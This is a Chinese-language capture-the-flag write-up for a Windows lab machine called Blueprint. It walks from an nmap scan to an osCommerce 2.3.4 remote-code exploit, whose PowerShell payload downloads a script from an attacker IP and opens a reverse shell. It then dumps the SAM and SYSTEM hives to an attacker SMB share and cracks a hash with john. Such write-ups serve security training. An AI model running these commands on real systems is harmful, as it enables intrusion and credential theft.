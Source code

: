 # Blueprint

入侵此 Windows 计算机并将您的权限升级为管理员

---

循例 nmap扫，主要开了这些端口：

    80/tcp    open  http
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    443/tcp   open  https
    445/tcp   open  microsoft-ds
    3306/tcp  open  mysql
    8080/tcp  open  http-proxy

进smb共享文件夹没啥东西，80进不去，8080和443都是同一个站点

web框架：oscommerce-2.3.4

    searchsploit oscommerce 2.3.4

有rce

直接用exp就能getshell

payload:

    powershell iex (New-Object Net.WebClient).DownloadString('http://10.14.39.48:8000/Invoke-PowershellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.14.39.48 -Port 8888

[Invoke-PowershellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

shell权限是system

root.txt在administrator的桌面下

### 转储sam、system

    reg save HKLM\sam sam
    reg save HKLM\system system

攻击机开启smbserver:

    python3 /usr/share/doc/python3-impacket/examples/smbserver.py hack .

上传文件到攻击机：

    copy sam \\10.14.39.48\hack
    copy system \\10.14.39.48\hack

攻击机使用python脚本读取

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system ./system -sam ./sam LOCAL

将Lab用户这一行单拎出来用john爆破：

    john --wordlist=/usr/share/wordlists/rockyou.txt ./hash

即可爆出明文密码
